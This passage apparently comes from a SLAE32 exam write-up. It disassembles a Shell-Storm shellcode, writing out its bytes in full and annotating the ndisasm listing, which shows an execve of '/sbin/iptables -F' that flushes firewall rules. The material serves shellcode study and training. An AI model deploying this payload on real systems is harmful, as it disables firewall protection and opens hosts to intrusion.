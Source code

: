 - [original_shellcode.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/3/original_shellcode.nasm), the original shellcode taken from Shell-Storm
- [polymorphic_shellcode.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/3/polymorphic_shellcode.nasm), my polymorphic version of the shellcode above
- [test_polymorphic_shellcode.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/3/test_polymorphic_shellcode.nasm), a `C` program for testing the polymorphic shellcode

## Analysis

First, we need to analyse the original shellcode:

```bash
echo -ne "\x31\xc0\x50\x66\x68\x2d\x46\x89\xe6\x50\x68\x62\x6c\x65\x73\x68\x69\x70\x74\x61\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x73\x89\xe3\x50\x56\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" > shellcode.bin

ndisasm -b 32 -p intel shellcode.bin
```

Follows the output of `ndisasm`:

```nasm
                            ; clear EAX, setting it to 0x00000000
00000000  31C0              xor eax,eax

                            ; null terminator for the string below
00000002  50                push eax

                            ; string -F
00000003  66682D46          push word 0x462d

                            ; save the pointer to the string into ESI
00000007  89E6              mov esi,esp

                            ; NULL terminator for the string below
00000009  50                push eax

                            ; string ///sbin/iptables
0000000A  68626C6573        push dword 0x73656c62
0000000F  6869707461        push dword 0x61747069
00000014  6862696E2F        push dword 0x2f6e6962
00000019  682F2F2F73        push dword 0x732f2f2f

                            ; save the pointer to the string into EBX
0000001E  89E3              mov ebx,esp

                            ; array of pointers to command-line arguments:
                            ;   - ebx -> pointer to string '///sbin/iptables'
                            ;   - esi -> pointer to string '-F'
                            ;   - eax -> 0x00000000 (null terminator of the array)
00000020  50                push eax
00000021  56                push esi
00000022  53                push ebx
```
